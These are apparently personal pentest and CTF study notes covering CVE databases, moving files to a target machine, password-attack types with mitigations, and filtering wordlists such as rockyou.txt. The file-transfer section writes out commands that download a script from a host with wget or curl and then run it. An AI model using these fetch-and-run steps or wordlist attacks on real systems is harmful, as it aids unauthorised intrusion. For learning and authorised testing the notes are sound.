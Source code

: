 # Exploitation

<hr class="sep-both">

## Vulnerabilities (CVE) databases

<div class="row row-cols-md-2"><div>

**General websites**

* [nvd.nist.gov](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&search_type=all) / [full listing](https://nvd.nist.gov/vuln/full-listing): a reference 📌

* [vulners](https://vulners.com/) (ex: [CVE-2016-1531](https://vulners.com/cve/CVE-2016-1531))) is a big search engines for vulnerabilities.

* [cvelist](https://github.com/CVEProject/cvelist): big Git with every CVE

* [inthewild](https://inthewild.io/) ([GitHub](https://github.com/gmatuz/inthewilddb))

</div><div>

* [rapid7.com](https://www.rapid7.com/db/): they give you ways to exploit CVE sometimes, such as the name of the Metasploit module...

<br>

**Specific to a product/platform**

* [microsoft.com](https://msrc.microsoft.com/update-guide/) (example: [CVE-2019-1388](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388)): for Microsoft CVEs

<br>

**Other**

* ➡️&nbsp; it's very useful to look for exploits/vulnerabilities on Google and GitHub. They are often **PoC** (Proof Of Concept) showing how to exploit a vulnerability. 
* ➡️&nbsp; There is this repository: [cve](https://github.com/trickest/cve) (3.8k ⭐) which aims to gather every CVE and their PoC.
</div></div>

<hr class="sep-both">

## Transfer files between two machines🛅

You will often have to send scripts to the target, or download files from the target.

<div class="row row-cols-md-2"><div>

**The most used: Python HTTP Server** 🐍

<i class="small">On the host where the file is:</i>

```bash
$ ls
file.sh file.ps1
$ python -m http.server port # port > 1023
$ sudo python -m http.server port # port <= 1023
```

<i class="small">On the client that need the file:</i>

```bash
# Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
$ chmod +x /tmp/script.sh;
$ /tmp/script.sh
# Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> . $Env:TMP/script.ps1; script
```
</div><div>

Of course, it doesn't work in every case.

* You may use copy-paste if available ✂️
* You may try with `python2`, and `python3`
* You may have to use `curl` or `iws` (Windows-only)

```bash
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

* You can use netcat 🌉

```bash
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

* You may use FTP/SCP/NFS... if applicable
</div></div>

<hr class="sep-both">

## Password attacks 🔐

<div class="row row-cols-md-2"><div>

There are 3 usual ways of carrying a password attack

* **Password Guessing**: based on knowledge of the target (birth year...)
* **Dictionary Attack**: test a list in which there may be the password
* **Brute Force Attack**: try every possibility (ex: incremental ASCII)
</div><div>

There are a few mitigations

* Block an IP after $n$ failed attempts within $x$ seconds

* Use a strong password policy

* Delay authentication attempts (throttle) to slow down attacks

* Use a CAPTCHA while taking into account that they are services to "bypass" them

* Use two-Factor authentication

</div></div>

<hr class="sl">

## 📃 Wordlists 📃

<div class="row row-cols-md-2 mt-3"><div>

There are two packages that are providing a lot of wordlists. Install, then use either command `wordlists` or `seclists` to move to the location where the wordlists are stored, and get the path of every wordlist.

* package seclists | [GitHub](https://github.com/danielmiessler/SecLists) (43k ⭐)
* package wordlists | [GitHub](https://github.com/drtychai/wordlists) (0.1k ⭐)

> **CTF are usually using `/usr/share/wordlists/rockyou.txt`** when there is a password to crack. If it's not inside, then it's likely that you're not supposed to use brute force.

### ➡️ Improving efficiency

As a "hacker", if there is a policy of "at least n characters/up to $m$ characters", then it would be very wise to filter shorter/longer values from your wordlists. For instance, with `rockyou.txt`

* `{n}`: only keep values having exactly $n$ characters
* `{n,}`: only keep values having more ($\ge$) than $n$ characters
* `{n,m}`: only keep values having between $[n,m]$ characters
* `{,m}`: only keep values having less ($\le$) than $m$ characters

```bash
# only keep 4 letters passwords
$ egrep '^.{4}$' /usr/share/wordlists/rockyou.txt > /tmp/4rock.lst
# which is the same as
$ grep '^....$' /usr/share/wordlists/rockyou.txt > /tmp/4rock.lst
```

As a reminder, you can also merge wordlists

```bash
$ cat wordlist1 wordlist2 wordlist3 > wordlist123
```
</div><div>

### ➡️ generate simple wordlists

There may be a case in which you want a wordlist such as numbers from 0 to 99, or every letter from A to Z. In both cases, I'm using [bash braces expansion](/operating-systems/linux/bash/index.md#braces-expansion) to generate the wordlist like this

```bash
$ echo {A..Z} | tr ' ' '\n' > AZ.lst
$ echo {0..99} | tr ' ' '\n' > 0_to_99.lst
$ echo user{0..9} | tr ' ' '\n' > user_0_to_99.lst
$ echo {admin,adm,user} | tr ' ' '\n' > simple_list.lst
```

### ➡️ package wordlist

<p class="mt-4">Passwords</p>

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

### ➡️ package seclists 📌

<p class="mt-4">

[Passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
</p>

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```

[Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames)

```
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>